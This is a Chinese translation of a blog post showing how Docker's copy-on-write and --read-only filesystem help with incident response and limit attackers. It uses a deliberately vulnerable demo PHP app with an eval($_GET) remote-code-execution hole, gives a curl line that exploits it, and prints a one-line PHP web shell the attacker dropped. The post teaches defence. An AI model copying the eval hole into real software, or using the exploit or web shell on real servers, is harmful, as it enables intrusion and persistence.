




# 使用不可变的基础设施增加攻击者的成本

> 原文：<https://diogomonica.com/2016/11/19/increasing-attacker-cost-using-immutable-infrastructure/?utm_source=wanqu.co&utm_campaign=Wanqu+Daily&utm_medium=website>

Docker 容器的一个优点是它们是不可变的。Docker 附带了一个写时复制文件系统，这意味着不能修改基本映像，除非您显式地发出 commit。

这非常方便的原因之一是，您可以非常容易地检查漂移，如果您试图调查安全事件，这可能会很方便。

### 演示应用程序

以下面的演示基础架构为例:



我们有一个 [PHP 应用程序](https://github.com/diogomonica/apachehackdemo)运行在我们的前端，一个 MySQL 服务器充当我们的后端数据库。你可以在家跟着跑步:

```
➜ docker run -d --name db -e MYSQL_ROOT_PASSWORD=insecurepwd mariadb
➜ docker run -d -p 80:80 --link db:db diogomonica/phphack 
```

既然您已经运行了数据库和前端，您应该会看到类似下面这样的内容:



不幸的是，与其他 PHP 应用程序不同，这个应用程序有一个远程代码执行漏洞:

```
if($links) {
<h3>Links found</h3>
... 
eval($_GET['shell']);
?> 
```

看起来有人在不该用的地方用了`eval`！任何攻击者都可以利用此漏洞，并在远程主机上执行任意命令:

```
➜ curl -s http://localhost/\?shell\=system\("id"\)\; | grep "uid="
uid=33(www-data) gid=33(www-data) groups=33(www-data) 
```

任何攻击者在最近被入侵的主机上的第一个动作是通过下载 PHP 外壳和工具包来使自己变得自在。一些攻击者甚至可能倾向于重新设计您的网站:



### 从黑客攻击中恢复

回到不变性，写时复制文件系统提供的一个很酷的功能是能够看到发生的所有变化。通过使用`docker diff`命令，我们实际上可以看到攻击者在文件修改方面做了什么:

```
➜ docker diff pensive_meitner
C /run
C /run/apache2
A /run/apache2/apache2.pid
C /run/lock
C /run/lock/apache2
C /var
C /var/www
C /var/www/html
C /var/www/html/index.html
A /var/www/html/shell.php 
```

有意思。看起来攻击者不仅修改了我们的`index.html`，还下载了一个 php-shell，方便地命名为`shell.php`。但我们的重点应该是让网站重新上线。

我们可以通过做一个`docker commit`来存储这个图像供以后参考，因为容器是不可变的(🎉)，我们可以重新启动我们的容器，重新开始工作:

```
➜ docker commit pensive_meitner
sha256:ebc3cb7c3a312696e3fd492d0c384fe18550ef99af5244f0fa6d692b09fd0af3
➜ docker kill pensive_meitner
➜ docker run -d -p 80:80 --link db:db diogomonica/phphack 
```



我们现在可以回到保存的图像，看看攻击者修改了什么:

```
➜ docker run -it ebc3cb7c3a312696e3fd492d0c384fe18550ef99af5244f0fa6d692b09fd0af3 sh
# cat index.html
<blink>HACKED BY SUPER ELITE GROUP OF HACKERS</blink>
# cat shell.php
<?php
eval($_GET['cmd']);
?> 
```

看起来我们刚刚被著名的超级精英黑客团体黑了。\ *(ツ)* /

### 增加攻击者的成本

能够在攻击后看到容器中的变化当然是有用的，但是如果我们能够在第一时间避免攻击呢？这就是`--read-only`的用武之地。

`--read-only`标志指示 Docker 不允许对容器的文件系统进行任何写操作。这将避免对`index.php`的任何修改，但更重要的是，它不会允许攻击者下载 php shell，或者攻击者可能想要使用的任何其他有用的工具。

让我们尝试一下，看看会发生什么:

```
➜ docker run -p 80:80 --link db:db -v /tmp/apache2:/var/run/apache2/ -v /tmp/apache:/var/lock/apache2/ --sig-proxy=false --read-only diogomonica/phphack
...
172.17.0.1 - - [04/Sep/2016:03:59:06 +0000] "GET / HTTP/1.1" 200 219518 "-" "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_11_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/52.0.2743.82 Safari/537.36 OPR/39.0.2256.48"
sh: 1: cannot create index.html: Read-only file system 
```

鉴于我们的文件系统现在是只读的，看来攻击者修改我们的`index.html`的企图被挫败了。😎

### 这是防弹的吗？

不，绝对不行。在我们修复这个 RCE 漏洞之前，攻击者仍然能够在我们的主机上执行代码，窃取我们的凭据，并泄露我们数据库中的数据。

也就是说，再加上运行一个[最小映像](https://hub.docker.com/_/alpine/)，以及其他一些非常酷的 [Docker 安全特性](https://www.delve-labs.com/articles/docker-security-production-2/)，你可以让任何攻击者*更难保持持久性并继续在你的网络中打探。*

### 结论

我们的应用程序的安全性永远不会完美，但是拥有不变的基础设施有助于事件响应，允许快速恢复，并使攻击者的工作更加困难。

如果通过使用一个强大的沙箱和调整几个旋钮，您可以使您的应用程序更安全，为什么不呢？🐳